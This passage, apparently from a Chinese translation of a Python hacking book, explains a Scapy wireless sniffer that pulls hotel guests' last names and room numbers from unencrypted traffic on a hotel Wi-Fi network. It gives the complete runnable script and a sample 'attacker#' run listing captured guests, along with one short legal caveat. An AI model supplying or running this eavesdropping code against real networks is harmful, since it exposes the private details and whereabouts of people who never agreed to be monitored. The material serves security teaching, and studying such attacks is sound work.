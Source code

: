 当`findGuest`函数接收到数据包，它将确认拦截的数据包是否包含任何私人信息。首先它复制原始数据到变量 raw 中，然后我们建立一个正则表达式来解析姓名和客人的房间号码。注意我们的正则表达式接受任何以`LAST_NAME`开始的字符串，和一个终止符号`&`。正则表达式为了酒店号码捕获任何以`ROOM_NUMBER`开头的字符串。

```py
def findGuest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name=re.findall("(?i)LAST_NAME=(.*)&amp;",raw)
    room=re.findall("(?i)ROOM_NUMBER=(.*)'",raw)
    if name:
        print("[+] Found Hotel Guest "+str(name[0]) + ", Room #" + str(room[0])) 
```

将所有的放在一起，我们现在有一个无线网络嗅探器捕获任何连接到这个酒店无线网络上的客户的姓名和房间号。请注意，为了有嗅探流量和分析数据包的能力，我们需要导入`Scapy`库。

```py
# coding=UTF-8
import optparse
from scapy.all import *

def findGuest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name=re.findall("(?i)LAST_NAME=(.*)&amp;",raw)
    room=re.findall("(?i)ROOM_NUMBER=(.*)'",raw)
    if name:
        print("[+] Found Hotel Guest "+str(name[0]) + ", Room #" + str(room[0]))

def main():
    parser = optparse.OptionParser('usage %prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
        print(parser.usage)
        exit(0)
    else:
        conf.iface = options.interface
    try:
        print('[*] Starting Hotel Guest Sniffer.')
        sniff(filter='tcp', prn=findGuest, store=0)
    except KeyboardInterrupt:
        exit(0)
if __name__ == '__main__':
    main() 
```

运行我们的酒店嗅探程序，我们可以看到黑客是怎样确认酒店住了那些人的。

```py
attacker# python hotelSniff.py -i wlan0
[*] Starting Hotel Guest Sniffer.
[+] Found Hotel Guest MOORE, Room #1337
[+] Found Hotel Guest VASKOVICH, Room #1984
[+] Found Hotel Guest BAGGETT, Room #43434343 
```

我应该有足够的强调，收集个人信息已经违反了一些州，国家的法律。在下一节，我们将进一步扩大我们嗅探无线网络的能力，通过解析 Google 搜索。
